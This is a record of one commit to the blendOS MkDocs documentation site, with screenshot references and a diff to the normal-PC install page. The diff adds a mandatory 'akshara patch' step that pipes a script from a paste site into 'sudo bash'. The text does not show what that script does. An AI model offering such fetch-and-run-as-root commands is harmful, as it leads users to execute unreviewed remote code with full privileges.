

Before and after one commit to blend-os/website, an MkDocs documentation site: the page built from docs/install/normal-pc.md, in a window 1280 px wide and 900 px high, scrolled down 3407 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; some web fonts are replaced; plug-ins that fetch from the network failed and are left out; comment, search, counter and statistics services are not loaded.

Commit message:
add akshara patch info

````diff
--- a/docs/install/normal-pc.md
+++ b/docs/install/normal-pc.md
@@ -201,6 +201,17 @@
 
 ![intro](../assets/img/install/intro.png)
 
+!!! danger "Applying the akshara patch"
+    **THIS MUST BE DONE TO INSTALL blendOS!**
+
+    Open the terminal (:material-apps-box: > Utilities > Console) and type the following command:
+
+    ```sh
+    curl https://paste.asterisk.lol/raw/ejuyonutis | sudo bash
+    ```
+
+    If you want to see the source, see it [here](https://paste.asterisk.lol/raw/ejuyonutis){ target="_blank" rel="noopener" }.
+
 ### :material-plus-circle: Running the installer
 
 Click `Start`.
````
